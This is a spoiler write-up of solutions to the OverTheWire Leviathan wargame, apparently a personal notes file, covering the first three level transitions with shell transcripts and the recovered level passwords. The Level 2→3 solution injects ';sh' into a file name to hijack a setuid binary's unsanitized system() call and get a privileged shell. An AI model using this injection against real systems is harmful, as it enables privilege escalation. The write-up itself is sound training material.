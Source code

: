 # Solutions
**THERE ARE SPOILERS AHEAD.**

These are my full solutions to the [leviathan](https://overthewire.org/wargames/leviathan/) ctf wargame. This is an "introductory" wargame so most of the challenges are fairly easy if you're familiar with common linux commands. If you're not familiar with the linux commands already, this ctf can be challenging but doable if you read the man pages and follow the hints. **Don't be discouraged!** You're learning a new language.

There are also a lot of good resources online for this war game in case you get stuck. My solutions will be fairly terse, although I will try to point out interesting things I find.


## Level 0
Log in with the username and password `leviathan0` given to us by the prompt.

## Level 0 to Level 1
Taking a look around on the server, this CTF seems to be structured similarly to the `bandit` other wargames that have passwords in `/etc/leviathan_pass/<password_file>`. Unfortunately, we can't read the `/etc/leviathan_pass/leviathan1` file.

Looking at the current directory, we see the following:

```bash
leviathan0@leviathan:~$ ls -hartl
total 24K
-rw-r--r--  1 root       root        675 May 15  2017 .profile
-rw-r--r--  1 root       root       3.5K May 15  2017 .bashrc
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
drwxr-xr-x 10 root       root       4.0K Aug 26  2019 ..
drwxr-x---  2 leviathan1 leviathan0 4.0K Aug 26  2019 .backup
drwxr-xr-x  3 root       root       4.0K Aug 26  2019 .
```

I took a look in `.profile`, `.bashrc`, `.bash_logout` and didn't see anything that stood out. `.backup` looks suspicious though. Inside that hidden directory, it has 1 file, `bookmarks.html` which is absolutely full of junk. Going out on a limb, I'm gonna `cat bookmarks.html | grep leviathan` and hope for the best. Lo and behold, I am rewarded with the following:

```
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

password: `rioGegei8m`

## Level 1 to Level 2
Looking in the main directory again, we see there's a file called `check`:

```bash
leviathan1@leviathan:~$ ls -hartl
total 28K
-rw-r--r--  1 root       root        675 May 15  2017 .profile
-rw-r--r--  1 root       root       3.5K May 15  2017 .bashrc
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
drwxr-xr-x 10 root       root       4.0K Aug 26  2019 ..
-r-sr-x---  1 leviathan2 leviathan1 7.3K Aug 26  2019 check
drwxr-xr-x  2 root       root       4.0K Aug 26  2019 .
```

It's a `setuid` binary which means that, if we can run it, it will run as the `leviathan2` user (the owner of the file). We can tell that by the `s` bit in the permissions section of the `check` file.

When we try to run it, it prompts us for a password. The current level's password does not work.

Going out on a limb, I looked through `strings check` to see if anything stood out. There were a few things that looked like they may have been passwords, but nothing worked.

I'm getting really desperate now and running `cat check`... on a binary file!? Yes. Scanning through, I see a LOT of garbage, but a few interesting words pop up. `sex`, `god`, `love`.

Running `check` and inputting `sex` for the password gives us a new prompt! Running `whoami` tells us that we are now `leviathan2`. Awesome. Time to get the password from `/etc/leviathan_pass/leviathan2`

password: `ougahZi8Ta`

## Level 2 to Level 3
Looking inside here, we again see a `setuid` binary called `printfile`. Running `printfile` alerts us to the fact that we need to give it a `filename` argument. Running `./printfile /etc/leviathan_pass/leviathan3` tells us that "cant have that file...". Hmm. `strings` and `cat` are no help here.

I had to do some googling for this one, and I found out about the `ltrace` command.

```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                     = -1
puts("You cant have that file..."You cant have that file...
)                              = 27
+++ exited (status 1) +++
```

```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                     = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                                       = 12002
geteuid()                                                       = 12002
setreuid(12002, 12002)                                          = 0
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                          = 0
+++ exited (status 0) +++
```

So, _if_ we had permission to the file, the system would run `/bin/cat <file>`. When we check for access, though, `printfile` tells us we don't have it. We can see that the system calls directly (without any sanitization). So, theoretically (and in actuality), we can make `printfile` run:

`/bin/cat /tmp/somedir/somefile;sh` which will plop us into the shell for `leviathan3`. We just need to

```
mkdir /tmp/somedir/
touch "/tmp/somedir/somefile;sh"
./printfile "/tmp/somedir/somefile;sh"
```

password: `Ahdiemoo1j`

There's also a slightly more in depth trick utilizing symlinks that can be found by googling for the solution to this level. I like my solution :).

## Level 3 to Level 4
